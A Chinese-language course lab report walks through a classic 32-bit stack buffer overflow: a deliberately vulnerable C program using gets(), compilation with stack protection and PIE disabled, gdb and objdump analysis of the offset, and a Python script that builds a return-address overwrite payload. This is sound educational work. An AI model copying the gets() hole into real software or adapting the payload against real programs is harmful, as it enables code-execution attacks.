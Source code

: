 # 实验六：简单栈溢出实验

## 实验步骤

### 设计受害程序

受害程序是一个简单的 C 程序，包含两个函数：`victim_function()` 和 `malicious_function()`。`victim_function()` 使用不安全的 `gets()` 函数读取用户输入到固定大小的缓冲区 `buffer[64]` 中，存在栈溢出漏洞。此次实验的目的，就是利用这个缓冲区漏洞，覆盖 `victim_function()` 的返回地址，让其返回到 `malicious_function()` 的入口地址，从而实现恶意行为。

```c
#include <stdio.h>
#include <stdlib.h>

void malicious_function() {
    printf("Malicious function executed!\n");
    exit(0);
}

void victim_function() {
    char buffer[64];
    printf("Enter some text: ");
    gets(buffer);
    printf("You entered: %s\n", buffer);
}

int main() {
    printf("Starting victim program...\n");
    victim_function();
    printf("Exiting victim program...\n");
    return 0;
}
```

对其进行编译：

```bash
gcc victim.c -o victim -g -m32 -fno-stack-protector -no-pie 
```

注意，这里将编译目标指定为 32 位（`-m32`），关闭了 Stack Canary 保护（`-fno-stack-protector`），关闭了 PIE（`-no-pie`）。

### 反汇编受害程序并构造恶意负载

使用 objdump 对受害程序进行反汇编：

```bash
objdump -d ./victim
```

发现 `malicious_function()` 的函数入口地址为 `0x08049196`：

```bash
08049196 <malicious_function>:
 8049196:       55                      push   %ebp
 8049197:       89 e5                   mov    %esp,%ebp
 8049199:       53                      push   %ebx
 804919a:       83 ec 04                sub    $0x4,%esp
 804919d:       e8 2e ff ff ff          call   80490d0 <__x86.get_pc_thunk.bx>
 80491a2:       81 c3 52 2e 00 00       add    $0x2e52,%ebx
 80491a8:       83 ec 0c                sub    $0xc,%esp
 80491ab:       8d 83 14 e0 ff ff       lea    -0x1fec(%ebx),%eax
 80491b1:       50                      push   %eax
 80491b2:       e8 a9 fe ff ff          call   8049060 <puts@plt>
 80491b7:       83 c4 10                add    $0x10,%esp
 80491ba:       83 ec 0c                sub    $0xc,%esp
 80491bd:       6a 00                   push   $0x0
 80491bf:       e8 ac fe ff ff          call   8049070 <exit@plt>
```

再使用 gdb 对受害程序进行反汇编：

```bash
gdb ./victim
```

在 `victim_function()` 处设置断点后运行程序，程序将在 `victim_function()` 处停止，此时我们可以查看当前栈帧的情况：

```bash
(gdb) break victim_function 
Breakpoint 1 at 0x80491d6: file victim.c, line 11.
(gdb) run
Starting program: /home/leverimmy/Documents/Projects/Cybersecurity-Fundamentals-Labs/Stack-Overflow/victim 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Starting victim program...

Breakpoint 1, victim_function () at victim.c:11
11          printf("Enter some text: ");
(gdb) info frame
Stack level 0, frame at 0xffffc2b0:
 eip = 0x80491d6 in victim_function (victim.c:11); saved eip = 0x8049244
 called by frame at 0xffffc2d0
 source language c.
 Arglist at 0xffffc2a8, args: 
 Locals at 0xffffc2a8, Previous frame's sp is 0xffffc2b0
 Saved registers:
  ebx at 0xffffc2a4, ebp at 0xffffc2a8, eip at 0xffffc2ac
```

这说明函数返回地址存放的地址为 `0xffffc2ac`。

再查看 `buffer[]` 的首地址：

```bash
(gdb) print &buffer
$1 = (char (*)[64]) 0xffffc260
```

因此，`buffer[]` 的首地址为 `0xffffc260`。

### 构造恶意负载

`0xffffc2ac` 和 `0xffffc260` 之差，就是我们需要填满的负载前缀。在前缀后加上 `malicious_function()` 的函数入口地址，就构造出了恶意负载。

```python
def p32(value):
    return value.to_bytes(4, byteorder='little')

if __name__ == "__main__":
    target_address = 0x8049196          # malicious_function() 的函数入口地址
    offset = 0xffffc2ac - 0xffffc260    # 返回地址和 buffer[] 首地址之间的距离

    payload = b"A" * offset + p32(target_address)

    with open("payload.txt", "wb") as f:
        f.write(payload)

    print(f"Payload written to payload.txt: {payload}")
```

这样会把恶意负载输出到 `payload.txt` 中。

## 实验截图

以 `payload.txt` 为输入，运行 `./victim`：

```bash
cat payload.txt | ./victim
```

得到如下结果：

![实验截图](./assets/result.png)

输出中含有 `Malicious function executed!`，这说明栈区溢出攻击成功。
